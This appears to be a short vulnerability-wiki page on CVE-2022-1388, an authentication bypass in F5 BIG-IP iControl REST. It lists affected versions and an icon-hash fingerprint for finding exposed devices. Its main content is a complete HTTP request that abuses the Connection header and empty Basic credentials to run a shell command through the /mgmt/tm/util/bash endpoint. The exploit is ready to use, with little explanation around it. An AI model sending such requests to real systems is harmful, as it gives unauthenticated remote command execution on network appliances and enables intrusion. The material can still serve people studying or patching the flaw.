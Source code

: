 # F5 BIG-IP iControl REST Identity Authentication Bypass Vulnerability CVE-2022-1388

## Vulnerability Description

BIG-IP is an application delivery service of F5, which is aimed at the world's advanced technology centered on application. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">11.6.1-16.1.2</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">icon_hash="-335242539"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20220509184545493.png)

Send request packet (set Host to localhost)

```java
POST /mgmt/tm/util/bash HTTP/1.1
Host: localhost
Authorization: Basic YWRtaW46
X-F5-Auth-Token: a
Connection: close, X-F5-Auth-Token
Content-Length: 39

{"command":"run","utilCmdArgs":"-c id"}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1652093045231-d532fbbd-7b56-4f58-a7a6-75d317750ad1.png)